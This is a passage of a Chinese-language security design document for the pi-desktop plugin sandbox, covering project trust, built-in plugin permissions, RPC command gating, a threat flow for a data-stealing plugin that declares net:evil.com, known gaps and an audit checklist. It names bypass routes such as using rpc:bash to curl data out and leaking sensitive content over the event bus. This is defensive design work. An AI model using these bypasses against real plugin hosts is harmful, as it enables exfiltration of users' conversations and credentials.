

**图 14 — 项目信任前置：不信任的项目级 settings 被忽略，防配置注入**。

### 8.2 项目信任 vs 插件权限：两条独立的轴

这里要厘清一个容易混的点：**项目信任和插件权限是两条独立的轴，不是一回事**（`DESIGN.md` 2.1.2 / 3.2.4 / 4.8）。

- **项目信任**管的是"这个项目的配置文件（`.pi/settings.json`）能不能被 pi 加载"。它管的是配置注入，不直接管插件。一个项目被信任，只是说它的项目级 settings 会生效——里面声明的底座扩展路径会加载、默认模型会覆盖。
- **插件权限**管的是"这个桌面插件能调什么能力（fs/net/child/content）"。它管的是插件的能力边界，和项目信任无关。

两者的关系是"项目信任隔离 settings，不隔离插件执行"。具体说：

- 项目级 settings 的加载受项目信任门控——不信任的项目，settings 不加载。
- 但项目级发现的桌面插件（`<cwd>/.pi/desktop/plugins/`，3.4 发现路径的项目级）——它们的**加载执行**不受项目信任门控。一个项目级桌面插件会被加载器正常发现、校验、activate，即使项目不被信任。它的能力受它自己的 `permissions` 授权约束，不受项目信任约束。

这个设计是有意的：项目信任防的是"恶意项目通过配置文件注入恶意底座扩展路径"——底座扩展跑在底座进程里、能改文件能跑命令，风险极高，必须信任门控。而桌面插件跑在沙箱里，沙箱 + permissions 已经管住了它的能力边界，不需要再叠一层项目信任门控。如果项目信任同时门控桌面插件加载，会让"打开任何项目都要先信任才能用项目级插件"变得很重，而沙箱已经兜底。



**图 15 — 项目信任（管配置）与插件权限（管能力）是两条独立轴，沙箱兜底让插件执行不需信任门控**。

### 8.3 默认信任策略

全局 settings 有个 `defaultProjectTrust` 字段（`DESIGN.md` 2.1.3），值 `"ask" | "always" | "never"`，控制默认是否信任新项目。`ask` 是默认——打开新项目时弹"是否信任"（4.8.3 运行时流程）；`always` 是默认信任所有新项目（方便但风险高）；`never` 是默认都不信任（最严）。用户在管理 UI 的项目信任页（4.3）可改这个策略，也可对单个项目显式设置信任状态覆盖默认。信任记录由底座的 `trust-manager.ts` / `project-trust.ts` 管理（2.1.4）。

### 8.4 项目级桌面插件的注意点

虽然项目信任不门控桌面插件加载执行，但项目级桌面插件（`<cwd>/.pi/desktop/plugins/`）仍是一个需要审慎的来源。一个恶意项目可能在它的 `.pi/desktop/plugins/` 里塞恶意桌面插件，用户打开项目时它被加载——它过沙箱、过 permissions 授权。关键问题是：**项目级桌面插件的 permissions 是不是要用户显式授权？**

按 permissions 三段生命周期（2.7），任何插件的扩展能力都要用户授权。所以项目级桌面插件即使被自动发现，它的 `fs:project:write` / `net:` / `content:sensitive` 等扩展能力仍需用户在管理 UI 授权——未授权的调用会抛错。这意味着恶意项目的桌面插件能"被加载"（activate、订阅脱敏 event、用默认能力），但要做高风险操作仍需用户点头。配合沙箱，这是"加载不等于放权"的分层防御。管理 UI 应对项目级来源的插件给出醒目标记（来源是 `project`，优先级最高、覆盖力最强），让用户知道"这个插件来自当前项目，不是你主动装的"。

## 9 推荐扩展安全：内置插件的权限分析

### 9.1 内置插件无特权，过同一沙箱

pi-desktop 随壳分发的内置默认插件（`DESIGN.md` 第 4 节，11 个：i18n、主题、管理 UI、时间线、文件预览、文件编辑器、会话管理、命令与快捷键、终端与项目信任、模型与运行参数、review）随包分发、优先级最低（`builtin`）、可被覆盖、架构地位和第三方插件完全平等——走同一套加载器、同一套槽位契约、同一沙箱、同一 permissions 授权，没有任何特权（`DESIGN.md` 4.1.2 / 5.2.2）。"内置"不等于"硬编码"——内置插件也是磁盘上的插件文件（只读、随壳更新），只是来源标记是 `builtin`、优先级最低。

这条纪律的安全含义是：内置插件的安全性由"它们的 permissions 声明 + 沙箱"保证，不由"它们是官方的所以可信"保证。所以分析内置插件的权限声明，是审计整个桌面端安全面的必要步骤——内置插件声明的权限组合，构成了"开箱即用"默认能做的事的边界。

### 9.2 内置插件权限矩阵

下表列出每个内置插件应有的 permissions 声明，按其功能推导（`DESIGN.md` 3.2.4 权限细分、各插件章节）。注意：内置插件是官方维护、随壳分发，它们的 permissions 仍需声明，但授权在启用时由 core 默认授予（用户装壳即用）——这是"内置默认授权"的便利，不是特权。第三方覆盖同名插件时，覆盖版本的 permissions 走正常用户授权流程。

| 内置插件 | 主槽位 | 需要 permissions | 理由 |
|---|---|---|---|
| i18n | languages | 无 | 纯声明式，无代码模块，只贡献语言包资源 |
| 主题 | themes | 无 | 纯声明式，只贡献设计 token 值映射 |
| 基础管理 UI | management | `fs:global:read`（读 settings）+ `fs:global:write`（写 settings/trust）| 管 pi 全局状态，读写 `~/.pi`；数据导出不含凭证 |
| 时间线 | cardRenderers | `content:sensitive` | 渲染对话内容/工具结果，必须看到敏感字段 |
| 文件预览 | viewers | `fs:project:read` | 预览项目文件，只读 |
| 文件编辑器 | viewers(扩展) | `fs:project:write` | 直写路径要写项目文件；未授权则只走经 agent 路径 |
| 会话管理 | sidePanel/commands | 无 | 经 RPC 管会话，不直接碰文件；session 存储是底座事务 |
| 命令与快捷键 | commands | `rpc:prompt` | 贡献命令面板+主输入框，发 prompt 经 rpc.prompt 驱动底座 |
| 终端与项目信任 | sidePanel/management | `rpc:bash`（终端走底座 bash）| 用户 bash 经 rpc.bash 让底座执行，不在桌面侧 spawn；授权门槛同 child:command |
| 模型与运行参数 | sidePanel/management | 无 | 经 RPC 切模型/thinking/queue，不碰文件 |
| review | sidePanel/commands | 无（可选 `content:sensitive`）| 划选评论，锚点从 DOM 读，不直接读对话内容；若要经 RPC 预读消息（`get_messages` 等）则需 `content:sensitive`（RPC 读响应同样受门控，4.1） |



**图 16 — 内置插件按 permissions 分五类：无、只读、写入、敏感内容、高危运行时（rpc:bash/rpc:prompt）**。

### 9.3 几个关键内置插件的安全细节

**基础管理 UI 插件**是权限最高的内置插件——它要 `fs:global:read` + `fs:global:write` 才能管 settings/trust/auth/MCP。它的数据导出/删除功能要严格不含凭证（4.3.2）。它的诊断页能看 RPC 状态、插件 worker 状态、错误统计——这是可观测性能力，不是攻击面，但日志缓冲存内存、不进 sqlite（4.3.2 日志页），重启丢失，避免敏感日志持久化。

**时间线插件**是唯一必须 `content:sensitive` 的内置插件——它的本职就是渲染对话内容和工具结果，看不到敏感字段就没法工作。它订阅 `message_*` / `tool_execution_*` event 流，收完整（未脱敏）事件，渲染成用户气泡/assistant 气泡/工具卡片。它不声明 `net:` 权限——它不外发数据，只本地渲染。所以即使它能读对话内容，也没有外发通道，窃取链路不成立。这是"内容可见性权限 + 无网络权限"的安全组合。

**文件编辑器插件**要 `fs:project:write` 才能直写项目文件（4.12.5）。未授权则只能走"经 agent"路径（不直接写盘，把改动交给 agent 用 edit 工具改）。这把"用户能直接改项目文件"做成显式授权的能力——防止恶意插件默默写文件。编辑器只写 `fs:project`（当前项目目录）范围，不给 `fs:global`（除非用户显式授权全局）。它和 agent 改文件的协调靠文件锁（本地 `file-locks.json` 弱协调）+ 变更通知（订阅 tool_execution_end 检测 agent 改了打开的文件）。

**终端与项目信任插件**不需要 `child:command`——用户执行的 bash 走 RPC 的 `bash` 命令让底座执行（4.8.2/4.8.4），不在桌面侧 spawn 子进程。但它需要声明 `rpc:bash`：因为 `bash` 已从默认 `rpc` 剥离（2.6），终端插件作为内置插件在启用时由 core 默认授予 `rpc:bash`（用户装壳即用，内置默认授权）。这是个重要的安全设计：终端的 bash 在底座进程的上下文里跑（底座有自己的工作目录、权限管理），不在桌面插件沙箱里跑。但要注意 `rpc:bash` 的授权等同于向该插件暴露底座凭证 env（5.2/5.4）——内置终端插件受官方信任、由底座侧 ACL 与用户可见操作兜底，第三方终端类插件则需用户显式授权 `rpc:bash` 并理解其凭证暴露面。桌面侧没有 `child:command` 的内置插件——这个权限留给真正需要在桌面侧跑构建/lint 的第三方插件，且要用户显式授权。

**review 插件**默认不需要 `content:sensitive`——它从 DOM 划选拿锚点（`data-entry-id`/文件路径+行），不直接读对话内容字段。但如果它要"预读消息做智能锚点"则需声明 `content:sensitive`。它的评论通过事件总线 `review.pending` 交给主输入框统一发送（4.10.4），不自己调 `rpc.prompt`——守住了"组装和调用分开"，review 负责组装评论、输入框负责发送。

### 9.4 内置插件可被覆盖的安全影响

内置插件可被覆盖（4.1.2）有安全影响：用户或项目级放一个同 id 插件，就覆盖了内置的那个。这意味着"内置时间线"可以被一个同 id 的第三方时间线替代。覆盖后的插件走正常加载器、沙箱、permissions——如果覆盖版本声明了 `content:sensitive` + `net:`，它仍要过用户授权。但风险在于：用户可能"以为在用官方时间线"而大意授权，实际是第三方覆盖版。所以管理 UI 要明确提示覆盖关系（3.4 合并时"项目级覆盖了用户级同名插件""内置被覆盖"都要标出），让用户知道"这个内置插件被谁覆盖了"。覆盖是允许的、正常的，但不能静默发生——这是可观测性纪律在安全维度的体现。

## 10 安全模型与洋葱架构的对照

### 10.1 安全动作的分层归属

把前面各节的安全动作按激进洋葱分层归位，得到一张"谁在哪层挡什么"的表：

| 安全动作 | 所在洋葱层 | 具体落点 | 挡什么 |
|---|---|---|---|
| 进程级隔离 | shell/ | `utilityProcess` worker | 插件崩溃不连累宿主、内存不越界 |
| scoped API 注入 | shell/ | PluginContext 注入 | 插件无法 `require/fs/process/fetch` |
| renderer 软隔离 | shell/ | portal + ErrorBoundary + 受限加载器 | UI 模块不乱改宿主 DOM、抛错不崩宿主 |
| webview 强隔离 | shell/ | 旁路（不可信富内容） | 彻底隔离的浏览器上下文 |
| permissions 授权表 | application/ | loader 授权管理 | 未授权能力调用抛错 |
| 装时授权/撤销 | application/ | installer / 管理UI | 用户控制权限生命周期 |
| 错误隔离 | application/ | lifecycle onCrash | 插件崩禁用自己 |
| content:sensitive 过滤 | gateway/ | event-translator + rpc-adapter | 插件 event 流、RPC 读响应、renderer 转发三路均脱敏、看不到对话内容 |
| RPC 边界收口 | gateway/ | rpc-adapter | 31 命令无管理类（挡运行时管理）+ 命令级授权表挡 bash/prompt/steer/follow_up 高危运行时命令 + export_html fs+sensitive 双门控 |
| 类型隔离 | gateway/ | context-binding | 圆心不绑底座协议类型 |
| 项目信任门控 | gateway/+底座 | SettingsManager | 不信任项目配置不加载 |
| 凭证管理 | 底座 | auth-storage | 凭证由底座管、桌面不碰 |
| 签名校验 | application/ | installer verifier | verified/unverified 信息提示 |
| 供应链溯源 | application/ | source 字段 | 追溯插件来源 |



**图 17 — 安全动作按洋葱分层归位，圆心不承担安全职责**。

### 10.2 为什么圆心不感知权限

圆心（`domain/`）不感知权限，是洋葱架构"依赖只向内"纪律在安全维度的体现。如果把 permissions 校验、敏感字段过滤放进圆心，圆心就要 import 授权表、要感知"哪个插件有什么权限"——这是"会变的策略"，会让圆心随安全策略演化而改动。圆心的价值是稳定——它只描述"插件和 core 交互的中性契约"（PluginContext 接口、槽位契约、中性 SessionEvent 类型），不描述"这个交互受不受权限约束"。

权限是横切在"交互"上的策略，按洋葱纪律，策略放在外层（gateway 过滤、application 授权），圆心只管契约。这带来三个好处：

- **圆心稳定**：加新权限枚举、改过滤算法、换授权策略，圆心不动。
- **策略可替换**：未来要更细的权限模型（RBAC、ABAC），只动 application/gateway，圆心和插件契约不动。
- **测试隔离**：圆心可纯单测（无任何外部依赖），安全策略测在 gateway/application 层用 mock。

### 10.3 RPC 边界是安全边界（命令集 + 命令级授权）

支柱①的 RPC 边界本身是一道安全边界（`DESIGN.md` 1.5.9 / 1.10），由两层组成：

- **命令集边界**：31 个 RPC 命令全是会话运行时控制（prompt/steer/abort/get_state/set_model/bash/compact/fork...），**没有管理 pi 自身的命令**——没有 list/enable/disable extension、没有读 settings、没有 reload config。守住它，插件经 RPC 不能"管理底座"（改配置、启停扩展）；管理 pi 自身必须走支柱②（写配置文件 + 重启子进程），而支柱②的写配置受项目信任门控（2.1.2）、写 settings 要信任约束（`assertProjectTrustedForWrite`）。
- **命令级授权表**：命令集边界只挡"管理类命令"，不挡"高危运行时命令"——`bash`（底座进程上下文执行任意 bash，等价 RCE，能读 env 凭证、`curl` 绕过 `net:` 白名单）和 `prompt`/`steer`/`follow_up`（驱动 agent 改文件、跑命令、发 HTTP，间接 RCE；`follow_up` 与 `steer` 并列，是入队驱动的独立命令）虽属"运行时控制"，但能驱动底座执行任意外部副作用。另有 `export_html`（有写副作用 + 内容输出，4.1.1）需 fs 作用域 + `content:sensitive` 双门控。所以 rpc-adapter 在派发命令前查命令级授权表：`bash` 需 `rpc:bash`、`prompt`/`steer`/`follow_up` 需 `rpc:prompt`、`export_html` 需 `outputPath` 落在已授权 fs 作用域内且落盘内容按 `content:sensitive` 脱敏，未声明授权或不满足约束直接拒绝；其余只读/中性命令（闭合枚举见 2.1 末尾）随默认 `rpc` 放行。

注意早期版本曾以"31 命令全是运行时控制、无管理类命令"为由宣称"RPC 边界已收口"——这是把"运行时控制 vs 管理"当成安全二分，与 `bash`/`prompt`/`follow_up` 的实际能力矛盾。修正后的立场是：**RPC 边界由"命令集无管理类"挡住运行时管理、由"命令级授权表"挡住高危运行时命令、由"4.1.1 双门控"挡住 export_html 的写副作用+内容输出，三道一起才收口**。三道边界与项目信任互补：命令集挡运行时管理、命令级授权挡高危运行时命令、export_html 双门控挡写副作用+落盘内容、项目信任挡配置注入。



**图 18 — RPC 边界由命令集（挡运行时管理）+ 命令级授权表（挡 bash/prompt 高危运行时命令）两道组成，配置操作走支柱②受项目信任门控**。

## 11 完整威胁流图：一次窃取攻击如何被各层挡下

把前面各节的安全机制串成一条完整的威胁流，看一次典型的"恶意插件窃取对话内容外传"攻击如何被各层挡下。假设攻击者发布了一个 npm 插件 `pi-desktop-helper`，声称是"对话分析工具"，实际想偷对话内容。



**图 19 — 窃取攻击的完整流：组合权限必须显式授权，意图在装时暴露**。

这个流图揭示的安全逻辑：攻击不是被某一道技术防线挡下的，而是被"意图可见"挡下的——恶意插件要窃取，必须同时声明 `content:sensitive` + `net:evil.com`，这个组合在装时被管理 UI 重点提示给用户。用户警觉就拒绝、大意就放行。沙箱不能阻止"用户主动授权的窃取"（因为权限是用户给的），但它把"窃取"从"隐蔽自动发生"转成"必须显式声明+用户授权"——这是权限模型能做的，也是它该做的。

如果攻击者想绕过权限声明、直接读凭证或直接 fetch？沙箱挡下：worker 里没有全局 `fetch`、没有 `require('fs')`、PluginContext 没有读凭证接口（第 5 节）。如果攻击者想借子进程读 env 凭证？`child:command` 要声明授权、且子进程 env 用 allowlist 不继承宿主凭证（5.4）。如果攻击者想经 RPC 读对话内容？`get_messages`/`get_entries`/`get_last_assistant_text` 的响应受 `content:sensitive` 门控，未声明者拿到的是脱敏/拒绝响应（4.1/4.2）；`export_html` 既有读路径的 `content:sensitive` 门控、又有 `outputPath` 的 fs 作用域门控（4.1.1），未声明 `content:sensitive` 者写出的 HTML 是脱敏版、`outputPath` 不在已授权 fs 作用域内直接拒绝。如果攻击者想经 RPC 让底座执行命令外传？`bash`/`prompt`/`steer`/`follow_up` 需声明 `rpc:bash`/`rpc:prompt` 并授权，未声明者 rpc-adapter 直接拒绝（10.3）；授权了 `rpc:bash` 的插件确实能在底座上下文 `curl` 外发、绕过 `net:` 白名单——这正是 `rpc:bash` 门槛等同 `child:command`、管理 UI 标注其凭证暴露面的理由（5.2/5.4）。每一道绕过尝试都被对应的边界挡下，或被抬升到需用户显式授权的高危门槛。

## 12 已知缺口与演进

### 12.1 renderer 侧隔离弱于进程级

诚实承认（`DESIGN.md` 3.6）：renderer 侧的隔离弱于独立进程，UI 代码和宿主共享 renderer 堆。core 用受限加载器 + portal + ErrorBoundary 收窄这个面，但不声称达到进程级强度。需要进程级隔离的不可信内容走 webview（旁路）。演进项：评估是否给 renderer 侧加更强的隔离（如 per-plugin realm、ShadowRealm），或在默认 renderer 隔离外提供更易用的 webview 槽位，让"渲染不可信富内容"的场景更顺。

### 12.2 项目级桌面插件的无门控加载

项目信任不门控桌面插件加载执行（8.2/8.4）——这是沙箱兜底下的有意设计。但项目级桌面插件仍是审慎来源：恶意项目可在 `.pi/desktop/plugins/` 塞插件。当前防御是"加载不等于放权"（扩展能力仍需用户授权）+ 管理UI 标记 `project` 来源。演进项：考虑给项目级桌面插件加"首次加载提示"（类似首次打开不信任项目的信任弹窗），让用户知道"这个项目带了桌面插件，要不要加载它"，但要平衡便利性，避免每次开项目都弹窗。

### 12.3 文件锁的弱协调

文件编辑器和 agent 改文件的协调靠本地 `file-locks.json` 弱协调（`DESIGN.md` 4.12.4/6.1）——不依赖底座改动，但可靠性有限。完整方案待和底座对齐：加 `query_file_lock`/`acquire_file_lock` RPC 命令，让底座 agent 工具改文件前查锁更可靠。属"底座该补的能力"类缺口。当前先靠本地文件 + Extension UI confirm 问用户的弱协调。

### 12.4 底座无 reload/list_sessions 对外命令

底座的 reload（`SettingsManager.reload` / `ResourceLoader.reload` / `AgentSession.reload`）和 `SessionManager.listAll()` 都是进程内部方法，没通过 RPC 暴露（`DESIGN.md` 2.2/6.1/6.2）。当前用"重启 RPC 子进程"兜底 reload、用"桌面端自己维护最近 session 列表"兜底 list。安全维度的关联：reload 缺口导致改配置必须重启子进程（带判断的重启，2.4.2），这本身不是安全漏洞，但重启窗口的 session resume、当前 turn 丢失是要处理的。list_sessions 缺口导致桌面端不解析底座 session 文件（不该自己去扫 sessionDir），这反而是个安全纪律——避免桌面端碰底座内部存储格式。

### 12.5 凭证加密存储的建议

凭证文件建议底座加密存储（向底座提，`DESIGN.md` 4.3.2）——当前 `auth-storage` 是否加密由底座决定。桌面端能做的是：不碰凭证（PluginContext 无读接口）、导出不含凭证、`child:command` 子进程不继承凭证 env。凭证落盘加密是底座的责任，桌面端督促底座做。

### 12.6 供应链 install 脚本的策略

npm 包 `postinstall` 脚本的投毒防护策略由 shell 层的 NpmFetcher 实现决定（7.2）。当前设计留了接口（`PackageFetcher`），具体策略（禁用 install 脚本、白名单脚本、沙箱化 npm install）需 shell 实现时定。演进项：明确 install 脚本策略文档化，让审计者知道"桌面端拉 npm 包时怎么处理 install 脚本"。

### 12.7 bus 的敏感内容扩散面（已知 `content:sensitive` 旁路，优先级已提升）

`bus` 是默认能力且 payload 不做 `content:sensitive` 脱敏（2.6）。一个持 `content:sensitive` 的插件若把对话内容原样 `publish` 到某 topic，无 `content:sensitive` 的同壳插件 `subscribe` 即可拿到，等价于绕过"未声明 `content:sensitive` 就拿不到对话内容"这条核心门控，且不需要任何 `net:` 组合就能在壳内扩散。受影响场景：同壳多插件协同（一个授权读、一个未授权消费）。**该缺口此前被定为"低危"，与全文"意图可见"核心防御强度不匹配**——第 4 节对 event 流/RPC 读路径（含 export_html 落盘内容）都给出了强保证，唯独 bus 路径仅靠"插件作者规范约束"兜底，审计清单第 4 条对 bus 不成立。现提升优先级为应治缺口：要么在默认实现里对 bus payload 做与 event 流一致的按订阅者 `content:sensitive` 脱敏（publish 侧或 subscribe 侧任一），要么在 gateway 层对跨权限级 bus 转发做拦截。在此之前，审计者须明确知道**bus 是已知的 `content:sensitive` 旁路、当前仅靠规范约束**，不得假定 bus 路径受第 4 节门控保护。

### 12.8 签名信任锚与 key rotation

6.1 的信任锚分发机制（壳内置官方公钥集 + 作者 key 指纹公示 + 用户导入）当前是设计描述，未定实现细节：官方公钥集如何随壳更新、作者 key 如何 rotation、被泄露的 key 如何吊销（CRL/OCSP 类机制）。演进项：定义 key rotation 与吊销流程，让 `verified` 标记可随信任锚更新而动态失效。`child:command` 的参数约束语法（2.4，白名单/前缀/正则三种）也是设计描述，待 shell 实现时定可校验语义；`net:` 白名单的 DNS rebinding 进一步防护（解析后校验 IP + pinning）待 shell 实现时补。

### 12.9 renderer 侧 content:sensitive 过滤的实现路径

4.1 已明确 renderer 侧 `pi.events.on` 同样受 `content:sensitive` 过滤（core main→renderer 转发前按订阅 renderer 插件权限逐订阅者脱敏）。但实现细节未定：core main 是否缓存同一份中性事件、按订阅者二次过滤，还是每次转发都重新过滤；最严格订阅者脱敏策略的边界。演进项：在 gateway 实现时定 renderer 转发过滤的具体策略，并补审计清单第 15 条覆盖。

## 13 安全审计清单

把全文的安全论断收成一份可勾的审计清单，供 code review 和安全评审对照：

- [ ] 圆心 `domain/` 不 import 任何安全策略（授权表、权限枚举、过滤逻辑）——权限感知在外层。
- [ ] `gateway/event-translator` 对每个订阅插件按 `content:sensitive` 权限过滤敏感字段，未声明者收脱敏事件。
- [ ] `gateway/rpc-adapter` 的 31 命令集无管理类命令（无 list/enable/disable extension、无读 settings、无 reload）。
- [ ] `gateway/rpc-adapter` 对高危运行时命令（`bash`/`prompt`/`steer`/`follow_up`）查命令级授权表：未声明 `rpc:bash`/`rpc:prompt` 直接拒绝；默认放行集为排除法闭合枚举（除 `bash`/`prompt`/`steer`/`follow_up`/`export_html` 三类排除项外的只读/中性命令），无"等"留白。
- [ ] `gateway/event-translator` + `rpc-adapter` 对 `get_messages`/`get_entries`/`get_last_assistant_text` 等 RPC 读响应按调用插件 `content:sensitive` 权限脱敏/拒绝；`export_html` 单独按"写副作用 + 内容输出"双门控：`outputPath` 必须落在调用插件已授权的 fs 作用域内（否则拒绝），落盘 HTML 内容按 `content:sensitive` 脱敏（未声明者写脱敏版或拒绝该命令，4.1.1）。
- [ ] gateway 经 `PermissionProvider` 抽象（application 实现、依赖注入）查权限表，不直接 import application。
- [ ] `shell/electron-main/plugin-host` 起 worker 时不暴露 `require`/`fs`/`process`/全局 `fetch`。
- [ ] `application/loader` 维护授权表，未授权能力调用抛错；授权可装时授、运行时撤销。
- [ ] `application/installer` 装时权限预览，`content:sensitive` + `net:` 组合重点提示；`rpc:bash`/`rpc:prompt` 标注凭证/RCE 暴露面。
- [ ] `application/installer/verifier` 做 manifest schema 校验 + 签名校验（经信任锚：壳内置官方公钥集/作者公示指纹/用户导入），产 verified/签名自洽/unverified 标记。
- [ ] `http.fetch` 走 core main 代理，按 `net:域名` 白名单（host 精确/后缀、scheme、端口）校验，重定向逐跳再校验，私网/回环/链路本地 IP 段拦截防 SSRF；插件无全局 fetch。
- [ ] `child:command` 绑定具体命令 + 可校验参数约束（白名单/前缀/正则）；子进程 env 用 allowlist 不继承宿主凭证环境变量。
- [ ] PluginContext 无读凭证接口；数据导出不含凭证；`rpc:bash` 授权后的凭证暴露面在管理 UI 标注（等价暴露底座凭证）。
- [ ] 项目信任门控 settings 加载（`assertProjectTrustedForWrite`）；项目级桌面插件加载执行不被信任门控，但 permissions 仍需授权。
- [ ] 内置插件无特权、过同一沙箱、声明各自 permissions；管理UI 标记覆盖关系不静默。
